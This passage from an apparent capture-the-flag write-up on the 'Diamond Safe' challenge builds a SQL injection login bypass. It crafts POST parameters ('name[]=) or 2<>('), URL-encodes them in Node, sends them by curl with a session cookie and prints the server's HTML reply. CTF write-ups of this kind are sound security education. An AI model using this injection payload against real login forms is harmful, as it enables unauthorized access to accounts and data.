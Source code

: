 ```
```

We got our SQL Injection plan!

### Breaking the login

Let's now prepare the POST data:

```
password=mysecret%s&name[]=) or 2<>(&name[]=default
```

We have to URLEncode the POST data values:

```javascript
$ node
Welcome to Node.js v14.12.0.
Type ".help" for more information.
> encodeURI('mysecret%s')
'mysecret%25s'
> encodeURI(') or 2<>(')
')%20or%202%3C%3E('
>
```

And we got our payload:

```
password=mysecret%25s&name[]=)%20or%202%3C%3E(&name[]=default
```

We are now ready to test our hack in the field, using our cookie value to login in the same session of the browser:

```bash
curl 'https://diamond-safe.flu.xxx/login.php' \
  -H 'content-type: application/x-www-form-urlencoded' \
  -H 'cookie: PHPSESSID=3d9dc29debc998c9c40b3007319ebed5' \
  --data-raw 'password=mysecret%25s&name[]=)%20or%202%3C%3E(&name[]=default'
```

Enough of this bullshit. Run it!

```html
$ curl 'https://diamond-safe.flu.xxx/login.php' \
>   -H 'content-type: application/x-www-form-urlencoded' \
>   -H 'cookie: PHPSESSID=3d9dc29debc998c9c40b3007319ebed5' \
>   --data-raw 'password=mysecret%25s&name[]=)%20or%202%3C%3E(&name[]=default'
<!DOCTYPE html>
<html lang="en">
    <head>
        <title>Diamond Safe</title>
        <meta charset="utf-8">
        <script src="/static/jquery-3.2.1.min.js"></script>
        <script src="/static/bootstrap.min.js"></script>
        <link rel="stylesheet" href="/static/bootstrap.min.css">
        <link rel="stylesheet" href="/static/main.css">
        <link rel="icon" type="image/png" href="/static/favicon.png">
    </head>
    <body>
        <div class="container">
            <br>
            <nav class="navbar navbar-default navbar">
                <div class="container-fluid">
                    <div class="navbar-header">
                        <a class="navbar-brand">Diamond Safe</a>
                    </div>
                    <ul class="nav navbar-nav">
                        <li><a href="/index.php">About</a></li>
```
